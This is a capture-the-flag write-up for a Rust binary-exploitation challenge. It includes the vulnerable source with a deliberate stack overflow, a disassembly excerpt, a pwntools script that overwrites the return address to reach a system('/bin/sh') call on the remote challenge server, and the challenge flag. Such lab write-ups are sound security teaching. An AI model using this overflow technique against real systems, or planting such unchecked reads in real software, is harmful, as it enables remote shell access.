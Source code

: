 # Pwn

```
Stumbled upon Rust recently, still learning the ropes...

nc 0.cloud.chals.io 31984 
```

Source code is provided in attachment:

```rust
use std::os::raw::{c_char, c_int, c_void};

#[link_section = ".text.patch"]
static PATCHPOINT: [u8; 2] = [0x5F, 0xC3];

#[repr(C)]
struct FILE {
    _priv: [u8; 0],
}

extern "C" {
    fn read(fd: c_int, buf: *mut c_void, count: usize) -> isize;
    fn puts(s: *const c_char) -> c_int;
    fn system(cmd: *const c_char) -> c_int;
    fn exit(code: c_int) -> !;
    static mut stdout: *mut FILE;
    fn setbuf(stream: *mut FILE, buf: *mut c_char);
}

const WELCOME: &[u8] = b"Welcome to my first Rust program!\n\0";
const PROMPT: &[u8] = b"Say something:\n\0";
const BYE: &[u8] = b"Bye!\n\0";
const NOPE: &[u8] = b"nope\n\0";
const BINSH: &[u8] = b"/bin/sh\0";

#[no_mangle]
pub extern "C" fn win(key: u64) {
    unsafe {
        if key != 0xdeadbeefcafebabeu64 {
            puts(NOPE.as_ptr() as *const c_char);
            exit(1);
        }
        system(BINSH.as_ptr() as *const c_char);
    }
}

pub extern "C" fn vuln() {
    let mut buf = [0u8; 64];
    unsafe {
        setbuf(stdout, std::ptr::null_mut());
        puts(PROMPT.as_ptr() as *const c_char);
        read(0, buf.as_mut_ptr() as *mut c_void, 0x200);
    }
}

fn main() {
    unsafe {
        puts(WELCOME.as_ptr() as *const c_char);
    }
    vuln();
    unsafe {
        puts(BYE.as_ptr() as *const c_char);
    }
}

```

There is a stack overflow in `read(0, buf.as_mut_ptr() as *mut c_void, 0x200);`. We can override the return address to `system`, found via [Binary Ninja](https://binary.ninja):

```
0023c4f3  488d3de66dfcff     lea     rdi, [rel data_2032e0]  {"/bin/sh"}
0023c4fa  ff1558620a00       call    qword [rel system]
0023c500  5d                 pop     rbp {__saved_rbp}
0023c501  c3                 retn     {__return_addr}
```

Attach script:

```python
from pwn import *

elf = ELF("./chall")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", log_level="debug")

# p = process(["./chall"])
p = remote("0.cloud.chals.io", 31984)

# gdb.attach(p)
# pause()

p.recvuntil("something:")
# override lowest 2 bytes of return address to 0xc4f3
buf = (
    b"A" * 0x48
    + bytes([0xf3, 0xc4])
)
p.send(buf)
p.interactive()
```

Flag: `FortID{1_D0n'7_Th1nk_Th1s_1s_H0w_Y0u'r3_Supp0s3d_T0_Wr1t3_C0d3_1n_Ru5t}`.
